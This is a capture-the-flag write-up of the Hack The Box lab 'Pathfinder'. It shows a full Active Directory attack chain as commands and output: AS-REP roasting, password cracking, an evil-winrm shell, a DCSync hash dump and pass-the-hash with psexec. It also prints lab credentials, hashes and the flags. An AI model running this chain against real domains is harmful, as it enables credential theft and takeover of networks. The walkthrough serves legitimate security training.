


# Hack The Box | Pathfinder
###### Writeup by. Jessi

## Enumeration
### Nmap Scan
Begin with an nmap scan on the target.  
**Target:** 10.10.10.30  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ nmap -sC -sV 10.10.10.30           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 14:27 EST
Nmap scan report for 10.10.10.30
Host is up (0.026s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-01-11 03:36:11Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PATHFINDER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h08m30s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-01-11T03:36:16
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.27 seconds
~~~
### Open Ports/Services
88/tcp - Kerberos  
389/tcp - LDAP  
5985/tcp - WinRM  
Target looks like a domain controller.  
### Active Directory
Using the credentials I obtained from a previously compromised box (sandra / Password1234!), I can attempt to enumerate Active Directory. I can achieve this with **BloodHound** - using the Python ingester first to get data.    
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ bloodhound-python -d megacorp.local -u sandra -p Password1234! -gc pathfinder.megacorp.local -c all -ns 10.10.10.30
INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 5 users
INFO: Connecting to GC LDAP server: pathfinder.megacorp.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Pathfinder.MEGACORP.LOCAL
INFO: Done in 00M 06S
~~~
### BloodHound
Now with the data I gathered with the python ingester, I can now start the Neo4j DB and login to bloodhound to access the data.  
  
I can drag and drop the .json files created earlier from the ingester. Once loaded, I can run a query from the top left menu bar. My selected query is "Find Principals with DCSync Rights".  
  
Here I can see that svc_bes has GetChangesAll privs to the domain. Meaning the account has the ability to request replication data from the DC, gaining sensitive info such as user hashes.  
## Lateral Movement
### Kerberos
It's worth checking out if Kerberos pre-auth is disabled on this account, making it vulnerable to ASREPRoasting. Using Impacket's GetNPUsers I can check.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:765efc769decb678560b0994d9761d39$5c42a78adf24dcb876c4861fd17045c7d6cc4e1be19c17ab18c6ba396d381cf52242806db734168cc8fbbd7234bccb1cb7ed3096a46995e3fdd90448dcb342d7b8f92f534aeba85da1628649f7abadc8f5245d9a2af89f82b9f7e5c2b1d099839f1e7fee743442ee62959088ab56dcb598e5d2055a560d24463bbad8224542e6eb6d7927d96527008aa75166b2d48a7651c8867e303b8d6a801aaf1c18bcdc55eebf7456606e06fe3441b6d73e4d31538ac00de956af6a3db8267ee928fe43df7e1f1a11210b2298f68775cf89df6e2f27743aa9ad5ff366435c4dcebbfc84927a06c5602e4145e7e72dfc73068178a9
~~~
I obtain the TGT ticket for svc_bes, I'll save it as a file named hash.  
### John
Using John in conjunction with rockyou.txt, I can obtain the plaintext password from the hash.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ john hash -wordlist=/usr/share/wordlists/rockyou.txt                             1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:14 DONE (2021-01-10 15:39) 0.06993g/s 741469p/s 741469c/s 741469C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~
Success.
#### Found Credentials
Username: svc_bes  
Password: Sheffield19  
### WinRM
Using the creds I just found, I can use evil-winrm to access the server. 
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> 
~~~
From here I can immediately capture the user.txt flag in C:\Users\svc_bes\Desktop.  
## PrivEsc
### GetChangesAll
Now I can use Impacket's secretsdump.py to leverage the GetChangesAll permission and perform a DCSync attack to dump the NTLM hashes of all domain users.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ secretsdump.py -dc-ip 10.10.10.30 megacorp.local/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:8020b53ed08719bdcbce82d03864e3b0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:646b9ba65e4a9e67b101d5560dc0edd65c21055d9fa1e1ead744673ce308e71a
PATHFINDER$:aes128-cts-hmac-sha1-96:157aec24982d4d84685b26d9d6a7f45b
PATHFINDER$:des-cbc-md5:0d37bfbcb5014f89
[*] Cleaning up... 
~~~
### psexec.py
With Impacket's psexec.py I am able to use the admin's NTLM hash in a PTH attack to gain elevated access to the system.  
~~~Bash
┌──(jessi㉿teatimesec)-[~/HTB/Pathfinder]
└─$ python3 ~/scripts/psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file TruBYTvA.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service GTsf on 10.10.10.30.....
[*] Starting service GTsf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
~~~
We are now SYSTEM and can capture the root.txt flag in C:\Users\Administrator\Desktop  
##### user.txt
Located in C:\Users\svc_bes\Desktop.  
**b05fb166688a8603d970c6d033f637f1**  
##### root.txt
Located in C:\Users\Administrator\Desktop.  
**ee613b2d048303e5fd4ac6647d944645**  
